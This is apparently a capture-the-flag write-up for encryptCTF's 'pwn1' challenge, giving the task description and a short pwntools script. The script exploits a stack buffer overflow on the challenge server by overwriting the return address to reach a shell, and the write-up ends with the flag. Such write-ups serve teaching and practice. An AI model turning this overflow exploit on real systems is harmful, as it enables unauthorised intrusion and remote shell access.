 # **pwn1**

#### tag : pwn

-----------------------------------------------

#### Description

>Let's do some real stack buffer overflow
>
>nc 104.154.106.182 2345
>
>author: codacker

-----------------------------------------------

#### Solution

```python
from pwn import *

r = remote('104.154.106.182', 2345)

sh = 0x080484ad

r.recvuntil(': ')
r.sendline('a' * 0x84 + p32(sh)*10)
r.recvuntil('\n')
r.interactive()
```
**encryptCTF{Buff3R_0v3rfl0W5_4r3_345Y}**
